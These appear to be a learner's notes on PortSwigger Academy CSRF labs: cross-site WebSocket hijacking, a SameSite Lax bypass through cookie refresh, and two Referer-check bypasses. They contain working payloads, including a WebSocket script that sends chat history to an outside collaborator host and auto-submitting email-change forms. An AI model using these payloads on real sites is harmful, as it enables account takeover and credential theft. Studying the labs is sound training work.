Lets check the HTTP history for possible cross-site WebSocket Hijacking Vulnerability. The only criteria it has to meet is it should not contain any unpredictable cookies.


We see that is only verified by using session cookie which might be vulnerable to CSRF attack.

Lets try bey deleting our session cookie and trying with new one and then again trying with out old session cookie if the previous history is shown.



I tried with old cookie and it worked



Look at `chat.js` origin using inspector.


It has a `Access-Control-Allow-Origin`  to a cms which is vulnerable to simple Stored- XSS attack.


Send the `POST /login` request to the Burp repeater

We changed the request Method from `POST` to `GET` and yet it worked.


Use this script but the URL encoded version:

```jsx
<script>
var ws = new WebSocket('wss://0af000a1046c674180280339007c00ab.web-security-academy.net/chat');
ws.onopen = function() {
ws.send("READY");
};
ws.onmessage = function(event) {
fetch('[https://](https://your-collaborator-payload.oastify.com/)8ox17t3ye36n52plx1qqkb988zes2iq7.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
};
</script>
```


Now go to the exploit server and then create a script that induces the viewer's browser to send the GET request we just tested. Use URL-encoded CSWSH payload as the username parameter.

```jsx
<script>
document.location = "[https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything](https://cms-your-lab-id.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything)";
</script>
```


In collaborator we got the password of carlos


---

## Bypassing SameSite Lax restrictions with newly issued cookies:

Cookies with `Lax` SameSite restrictions aren’t normally sent in any cross-site `POST` requests, 2 minthere are some exception in them.

If a site doesn’t include a `SameSite` attribute when setting a cookie, Chrome automatically applies `Lax` restrictions by default.

But there is a catch, to avoid breaking `single sign-on (SSO)` mechanism, it doesn’t enforce `Lax` restrictions for the first 120 seconds on top-level `POST` requests. So, realistically there is `2 min` window where a client might be susceptible to cross-site attacks.

But, it is not realistic to try timing attack to fall within this short window. So if there a vulnerability to refresh their cookie before following up with the main attack then this might work.

To trigger the cookie refresh without the victim having to manually log in again, you need to use a top-level navigation, which ensures that the cookies associated with their current OAuth session are included. This poses an additional challenge because you then need to redirect the user back to your site so that you can launch the CSRF attack.

Alternatively, you can trigger the cookie refresh from a new tab so the browser doesn't leave the page before you're able to deliver the final attack. A minor snag with this approach is that browsers block popup tabs unless they're opened via a manual interaction. For example, the following popup will be blocked by the browser by default:

```jsx
window.open('https://vulnerable-website.com/login/sso');
```

To get around this, you can wrap the statement in an `onclick` event handler as follows:

```jsx
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```

This way, the `window.open()` method is only invoked when the user clicks somewhere on the page.

---

### LAB: SameSite Lax bypass via cookie refresh:

[](https://portswigger.net/web-security/learning-paths/csrf/csrf-bypassing-samesite-lax-restrictions-with-newly-issued-cookies/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh)

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: `wiener:peter`

#### Reconnaissance: Email Change Functionality

Study the `POST /change-email`  request and notice that it doesn’t contain any other unpredictable cookies


In the request `GET /oauth-callback?code=[...]` there is no attribut of SameSite restriction. So Chrome automatically sets it to Lax by default.


#### Attempt a CSRF attack:

1. In the browser, go to the exploit server.
2. Use the following template to create a basic CSRF attack for changing the victim's email address:

```jsx
<script> history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST"> <input type="hidden" name="email" value="foo@bar.com" /> <input type="submit" value="Submit request" />
</form>
<script> document.forms[0].submit();
</script>
```

1. Store and view the exploit yourself. What happens next depends on how much time has elapsed since you logged in:
    - If it has been longer than two minutes, you will be logged in via the OAuth flow, and the attack will fail. In this case, repeat this step immediately.
    - If you logged in less than two minutes ago, the attack is successful and your email address is changed. From the **Proxy > HTTP history** tab, find the `POST /my-account/change-email` request and confirm that your session cookie was included even though this is a cross-site `POST` request.

#### **Bypass the SameSite restrictions**

1. In the browser, notice that if you visit `/social-login`, this automatically initiates the full OAuth flow. If you still have a logged-in session with the OAuth server, this all happens without any interaction.
2. From the proxy history, notice that every time you complete the OAuth flow, the target site sets a new session cookie even if you were already logged in.
3. Go back to the exploit server.
4. Change the JavaScript so that the attack first refreshes the victim's session by forcing their browser to visit `/social-login`, then submits the email change request after a short pause. The following is one possible approach:

```jsx
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script> window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); function changeEmail(){ document.forms[0].submit(); }
</script>
```

Note that we've opened the `/social-login` in a new window to avoid navigating away from the exploit before the change email request is sent.

1. Store and view the exploit yourself. Observe that the initial request gets blocked by the browser's popup blocker.
2. Observe that, after a pause, the CSRF attack is still launched. However, this is only successful if it has been less than two minutes since your cookie was set. If not, the attack fails because the popup blocker prevents the forced cookie refresh.

#### **Bypass the popup blocker**

1. Realize that the popup is being blocked because you haven't manually interacted with the page.
2. Tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked. The following is one possible approach:

```jsx
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script> window.onclick = () => { window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); } function changeEmail() { document.forms[0].submit(); }
</script>
```

1. Test the attack on yourself again while monitoring the proxy history in Burp.
2. When prompted, click the page. This triggers the OAuth flow and issues you a new session cookie. After 5 seconds, notice that the CSRF attack is sent and the `POST /my-account/change-email` request includes your new session cookie.
3. Go to your account page and confirm that your email address has changed.
4. Change the email address in your exploit so that it doesn't match your own.
5. Deliver the exploit to the victim to solve the lab.

---

## Bypassing Referrer-based CSRF defenses:

Besides using CSRF token, some web applications use HTTP referrer header to attempt to defend against CSRF by checking the where did the request originate from. This method is likely to get bypassed.

### Referrer Header:

The HTTP Referer header (which is inadvertently misspelled in the HTTP specification) is an optional request header that contains the URL of the web page that linked to the resource that is being requested. It is generally added automatically by browsers when a user triggers an HTTP request, including by clicking a link or submitting a form. Various methods exist that allow the linking page to withhold or modify the value of the `Referer` header. This is often done for privacy reasons.

---

## Validation of Referrer depends on header being present:

Some applications validate the `Referer` header when it is present in requests but skip the validation if the header is omitted.

---

### LAB: CSRF where Referrer validation depends on header being present:

[](https://portswigger.net/web-security/learning-paths/csrf/csrf-validation-of-referer-depends-on-header-being-present/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

The lab’s email-change function is vulnerable to CSRF attack.

Check the `POST /change-email`  request and send to the repeater.


In there Referer is used to check if the request is coming from the original website or not.

The vulnerability is in fallback when the referer is not there it doesn't do anything and automatically authorized email change.

Create a CSRF PoC and add the following line in the head to remove the Referer header.

`<meta name="referrer" content="never">` 

The script that I used is:

```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
<meta name="referrer" content="never">
</head>
<body>
<form action="[https://0a4e00b8045d9bf1817b211a007c002d.web-security-academy.net/my-account/change-email](https://0a4e00b8045d9bf1817b211a007c002d.web-security-academy.net/my-account/change-email)" method="POST">
<input type="hidden" name="email" [value="wiener11@test.com](mailto:value=%22wiener11@test.com)" />
<input type="submit" value="Submit request" />
</form>
<script>
history.pushState('', '', '/');
document.forms[0].submit();
</script>
</body>
</html>
```


---

## Validation of Referer can be circumvented:

When testing this bypass, you might get it working in Burp Suite but find it fails when you try it in an actual browser. This is because many browsers now strip the query string from the `Referer` header by default, as a privacy measure to avoid leaking sensitive data in URLs. So a crafted URL like `http://attacker-website.com/csrf-attack?vulnerable-website.com` would arrive at the server with the `Referer` showing only `http://attacker-website.com/csrf-attack` , the `?vulnerable-website.com` part gets cut off, breaking the bypass.

To work around this, you can set the `Referrer-Policy: unsafe-url` header on the response from your exploit page. This tells the browser not to strip anything, so it sends the complete URL, query string included — as the `Referer` when the victim's browser makes the request. (And yes, note the spelling difference: `Referrer-Policy` is spelled correctly with two Rs, while the actual `Referer` header keeps its historical typo.)

---

### LAB: CSRF with Broken Referer Validation:

[](https://portswigger.net/web-security/learning-paths/csrf/csrf-validation-of-referer-can-be-circumvented/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

The vulnerability is in the email-change functionality

The application uses Referer to check the for CSRF attack but the check can be bypassed.

The application only check if the host appears in referrer. If the referrer contain other website but query with the original site it will work.

The script that is used is:

```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<script>
history.pushState("", "", "/?[0a520028037848eb806821e900bf000b.web-security-academy.net](http://0a520028037848eb806821e900bf000b.web-security-academy.net/)")
</script>
<form action="[https://0a520028037848eb806821e900bf000b.web-security-academy.net/my-account/change-email](https://0a520028037848eb806821e900bf000b.web-security-academy.net/my-account/change-email)" method="POST">
<input type="hidden" name="email" [value="Hello11@test.com](mailto:value=%22Hello11@test.com)" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

If you store the exploit and test it by clicking "View exploit", you may encounter the "invalid Referer header" error again. This is because many browsers now strip the query string from the Referer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request, go back to the exploit server and add the following header to the "Head" section:

```
Referrer-Policy: unsafe-url
```


---